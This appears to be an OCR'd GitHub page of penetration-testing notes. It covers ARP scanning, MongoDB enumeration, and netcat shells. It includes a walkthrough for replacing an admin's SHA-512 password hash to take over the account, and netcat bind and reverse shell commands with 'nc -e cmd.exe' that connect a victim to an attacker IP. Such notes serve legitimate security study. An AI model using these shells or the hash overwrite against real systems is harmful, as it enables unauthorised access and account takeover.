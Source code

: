 <br />

# ARP
## Info
- *ARP = Address Resolution Protocol*
- With ARP you can exploit IP-to-MAC resolution to steal/modify/redirect frames
- ARP allows MITM/DoS attacks

## HowTo
### ARP Scans
- `arp-scan --localnet`
- `arp -a`: On Windows (show all arp-cache)

<br />

## MONGODB
## HowTo
- `mongo host:port`: for instance `mongo localhost:27117`
- `mongo <HOST>:<PORT>/<DB>
- `mongo -u <USER> -p <PASSWORD> <HOST>:<PORT> --authenticationDatabase <AUTH_DB>`
- **After Authentication**
- `show dbs`
- `show collections`
- `db.mycoll.help()`
- `db.admin.find().forEach(printjson);`
- `db.admin.insert()`: Add data to admin object
- `db.admin.update()`: Change data of amin object 
   -  `"_id" : ObjectId("61..ee4"),"name" : "admin","email" : "ad...b",	"x_shadow" : "$6$Ry6Vd..QETt4."`: Identify hash type **$6** (SHA512)
   - `mkpasswd -m sha-512 password123`: Create alternative password like `password123`
   - `db.admin.update({"_id" : ObjectId("61ce2..7ee4")},{$set:{"x_shadow":"$6$7CMtDpvcMoct...0Y4rbU/gd8/"}})`

<br />

## SHELL (INTERACTIVE & STABLE)
## HowTo
### Bind Shell
- Victim: `nc -vnlp 4444 -e cmd.exe`
- Attacker: `nc [IPv4] 4444`

### Reverse Shell
- Victim: `nc -vn [IPv4] 443 -e cmd.exe`
- Attacker: `nc -nvlp 443`
